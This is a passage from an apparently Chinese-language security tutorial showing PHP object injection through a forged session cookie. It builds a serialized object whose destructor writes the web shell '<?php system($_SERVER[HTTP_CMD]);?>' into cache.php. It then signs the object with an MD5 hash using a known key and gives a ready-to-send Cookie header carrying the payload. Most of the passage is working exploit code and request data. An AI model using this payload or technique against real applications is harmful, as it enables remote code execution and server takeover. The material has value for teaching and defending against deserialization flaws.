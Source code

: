 ```
    }

    public function get_value(){
        return $this->value;
    }
    public function __destruct(){
        file_put_contents($this->dir."cache.php", $this->value, FILE_APPEND);
    }
}

```

你可以看到`__destruct`方法把类变量保存在了 cache.php 文件内。序列化形式的 Cacheclass 会像下面所示字符串一样

```
//
O:10:"Cacheclass":2:{s:3:"dir";s:15:"/tmp/cache_dir/";s:5:"value";s:3:"NUL";} 
```

我们要把它改成下述形式来向 cache.php 文件中写入 eval 运行的代码

```
<?php
class Customcacheclass {

    var $dir = 'application/libraries/cache_dir/';
    var $value = '<?php system($_SERVER[HTTP_CMD]);?>';
}
echo serialize(new Customcacheclass);

// Result
// 运行结果
O:16:"Customcacheclass":2:{s:3:"dir";s:32:"application/libraries/cache_dir/";s:5:"value";s:35:"<?php system($_SERVER[HTTP_CMD]);?>";}

```

现在我们需要对构造的 session 会话数据计算真实的 MD5 值 以通过 sess_read 方法的完整性控制

```
<?php

$b = 'O:16:"Customcacheclass":2:{s:3:"dir";s:32:"application/libraries/cache_dir/";s:5:"value";s:35:"<?php system($_SERVER[HTTP_CMD]);?>";}';
$private_key = 'h4ck3rk3y';

echo md5($b.$private_key);
echo "\n";

```

结果是 fc47e410df55722003c443cefbe1b779  我们将把这段 MD5 加在我们的新 cookie 值末尾

```
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0
Referer: http://localhost/
Cookie: ci_session=O%3A16%3A%22Customcacheclass%22%3A2%3A%7Bs%3A3%3A%22dir%22%3Bs%3A32%3A%22application%2flibraries%2fcache_dir%2f%22%3Bs%3A5%3A%22value%22%3Bs%3A35%3A%22%3C%3Fphp%20system%28%24_SERVER%5BHTTP_CMD%5D%29%3B%3F%3E%22%3B%7Dfc47e410df55722003c443cefbe1b779 
```
